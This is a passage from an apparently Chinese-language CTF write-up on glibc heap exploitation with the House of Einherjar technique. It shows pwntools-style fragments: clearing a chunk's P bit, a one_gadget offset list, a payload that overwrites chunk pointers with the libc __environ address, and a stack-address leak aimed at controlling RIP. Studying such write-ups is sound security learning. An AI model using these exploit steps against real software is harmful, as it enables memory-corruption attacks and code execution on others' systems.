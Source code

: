 ```plain
delete(2)
```

这里的 pre\_size 和 size 已经对应了，然后直接 delete(2) 把 chunk 的 P 位改为 0，这样就满足了 House Of Einherjar 的条件

```plain
gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)
```

然后申请两次 chunk，在储存 chunk1\_ptr 的地方写入 'environ' (在 libc 中有一个全局变量'environ'，储存着该程序环境变量的地址，而环境变量是储存在栈上的，所以可以泄露栈地址，所以可以控制 rip 了) ,然后把 chunk2\_ptr 改成 chunk1\_ptr 的地址，方便修改

[![](assets/1701612371-dd6a9257bd9aa88fb3ee067d131abbf4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152047-ccd867e8-17df-1.png)  
这里的 chunk\_ptr 前面的应该是 size，直接写一个数就行，这里没有过多的检查，我试了试两个 p64(0x100) 也能打通

```plain
p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
leak('environ',libc_base + libc.symbols["__environ"])
success("env_stack address: " + hex(stack_env))
```
